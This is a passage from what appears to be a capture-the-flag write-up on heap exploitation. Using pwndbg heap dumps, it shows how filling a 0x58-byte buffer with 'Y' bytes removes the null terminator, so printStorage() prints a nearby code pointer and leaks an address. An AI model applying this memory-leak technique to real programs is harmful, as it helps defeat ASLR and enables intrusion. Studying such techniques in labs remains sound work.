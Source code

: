 Note that the chunk is of size *0x60*, so we malloc *0x58* as malloc add *8* bytes for chunk metadata.

Initially the heap looked like this :

{{< rawhtml >}}
<div class="highlight"><pre tabindex="0" style="color:#f8f8f2;background-color:#272822;-moz-tab-size:4;-o-tab-size:4;tab-size:4;"><code style="background-color:initial;"><font color="#F92672"><b>pwndbg&gt; </b></font>vis_heap_chunks 2 0x555555603290 

0x555555603290  <font color="#F4BF75">0x0000000000000000</font> <font color="#A1EFE4">0x0000000000000061</font> <font color="#A1EFE4">........a.......</font>
0x5555556032a0  <font color="#A1EFE4">0x67694c206568540a</font> <font color="#A1EFE4">0x0a72656261737468</font> <font color="#A1EFE4">.The Lightsaber.</font>
0x5555556032b0  <font color="#A1EFE4">0x6e6f53206568540a</font> <font color="#A1EFE4">0x7765726353206369</font> <font color="#A1EFE4">.The Sonic Screw</font>
0x5555556032c0  <font color="#A1EFE4">0x0a0a726576697264</font> <font color="#A1EFE4">0x0a73726573616850</font> <font color="#A1EFE4">driver..Phasers.</font>
0x5555556032d0  <font color="#A1EFE4">0x696f4e206568540a</font> <font color="#A1EFE4">0x6b63697243207973</font> <font color="#A1EFE4">.The Noisy Crick</font>
0x5555556032e0  <font color="#A1EFE4">0x00000000000a7465</font> <font color="#A1EFE4">0x0000555555400be6</font> <font color="#A1EFE4">et........@UUU..</font>
0x5555556032f0  <font color="#A1EFE4">0x0000000000000000</font> <font color="#AE81FF">0x0000000000020d11</font> <font color="#AE81FF">................</font>    &lt;-- Top chunk
</code></pre></div>
{{< /rawhtml >}}

We can run our script with debugging options `$ ./xpl.py NOASLR DEBUG GDB`.

{{< rawhtml >}}
<div class="highlight"><pre tabindex="0" style="color:#f8f8f2;background-color:#272822;-moz-tab-size:4;-o-tab-size:4;tab-size:4;"><code style="background-color:initial;"><font color="#F92672"><b>pwndbg&gt; </b></font>vis_heap_chunks 2 0x555555603290 

0x555555603290  <font color="#F4BF75">0x0000000000000000</font> <font color="#A1EFE4">0x0000000000000061</font> <font color="#A1EFE4">........a.......</font>
0x5555556032a0  <font color="#A1EFE4">0x5959595959595959</font> <font color="#A1EFE4">0x5959595959595959</font> <font color="#A1EFE4">YYYYYYYYYYYYYYYY</font>
0x5555556032b0  <font color="#A1EFE4">0x5959595959595959</font> <font color="#A1EFE4">0x5959595959595959</font> <font color="#A1EFE4">YYYYYYYYYYYYYYYY</font>
0x5555556032c0  <font color="#A1EFE4">0x5959595959595959</font> <font color="#A1EFE4">0x5959595959595959</font> <font color="#A1EFE4">YYYYYYYYYYYYYYYY</font>
0x5555556032d0  <font color="#A1EFE4">0x5959595959595959</font> <font color="#A1EFE4">0x5959595959595959</font> <font color="#A1EFE4">YYYYYYYYYYYYYYYY</font>
0x5555556032e0  <font color="#A1EFE4">0x5959595959595959</font> <font color="#A1EFE4">0x0000555555400be6</font> <font color="#A1EFE4">YYYYYYYY..@UUU..</font>
0x5555556032f0  <font color="#A1EFE4">0x0000000000000000</font> <font color="#AE81FF">0x0000000000020d11</font> <font color="#AE81FF">................</font> &lt;-- Top chunk
</code></pre></div>
{{< /rawhtml >}}


We have filled the buffer with `'Y'` and there is no  `'\x00'` left that would indicate a *end of file*.
The pointer will be considered as part of the string and will be printed when we call `printStorage()`.
